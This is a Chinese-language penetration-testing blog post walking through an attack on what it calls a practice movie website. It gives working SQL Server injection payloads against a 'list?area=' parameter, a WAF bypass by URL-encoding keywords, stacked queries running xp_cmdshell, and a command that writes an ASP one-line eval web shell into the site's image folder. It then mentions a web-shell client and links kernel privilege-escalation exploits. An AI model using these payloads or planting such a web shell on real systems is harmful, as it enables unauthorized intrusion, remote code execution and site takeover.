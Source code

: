 ```yaml
---
title: SQL注入练手站
date: 2017-10-23 21:08:32
categories: Pentest
tags: SQLInjection
---
```



### 0x00 


使用[WhatWeb](https://whatweb.net/)来获取网站的一些基本信息
![](0.png)

对资源列表页面随手进行测试发现存在注入漏洞。

一般网站可能会对用户输入进行过滤，但是对于自己预置的参数值就会放松警惕，此处的`area`为影片的国家。
```
list?area=%E9%A6%99%E6%B8%AF&Category=
```
![](1.png)

```
list?area=1'
```
![](2.png)

尝试`order`出错
```
list?area=1' order by 1;-- 
```
**注：`--`后要接一个空格，或者直接使用`#`注释符，此处为sqlserver,不能使用`#`**

![](3.png)


### 0x01

既然能显示错误，那么考虑使用类型转换报错来返回结果。
```
list?area=1' and db_name(x)>0;-- 
```
**[注：`x`参数可用来选择不同数据库，为空即返回当前数据库名。][url]**
[url]:https://technet.microsoft.com/en-us/library/ms189753(v=sql.110).aspx
![](4.png)

直接猜存在`admin`表，猜到字段`user`和`pwd`

但是突然发现有WAF，过滤了一些关键字。

多次测试后发现可通过URL编码转换绕过。如：`select`改变一个`e`为 URL编码`%65`，使用`s%65lect`即可
```
list?area=1' and (s%65lect pwd from admin)>0 -- 
```
![](5.png)

结果不可解。

### 0x02

换思路

考虑命令执行

直接添加用户，提权，然后远程连接，发现没有成功。

但是，执行命令又不能直接在页面回显。

考虑把回显写到表中，然后通过读取表中的内容获得结果。

建个新表
```
list?area=1';
CR%65ATE TABLE fileList(line varchar(8000))-- 
```
执行命令，并把结果写入到表中
```
list?area=1';
IN%53ERT INTO fileList 
  %45XEC xp_cmdshell 'whoami'-- #  
```
直接读取只能读一行，使用`FOR XML`，可一次性获取全部内容
```
list?area=1' and (S%65LECT * FROM fileList FOR XML AUTO)>0 --
```
发现权限不够。

### 0x04
不能一步到位，就退而求其次，上个一句话

一开始想着写在`list`页面的同一个目录下

无奈发现，写入后，怎么都找不到。

经指点知，可能采用的是`SVM`结构的网站，最有效的写入路径应该是存储图片的文件夹
```
list?area=1';
IN%53ERT INTO fileList   
  %45XEC xp_cmdshell 'echo <%eval request("pass")%^>^ > c:\website\Movie\movie\Content\123.asp'-- 
```
**注：在cmd中使用`>`会被解析为输出符号，要想使用必须要用`^`包裹**

菜刀连接

### 0x05

[提权](https://github.com/SecWiki/windows-kernel-exploits)
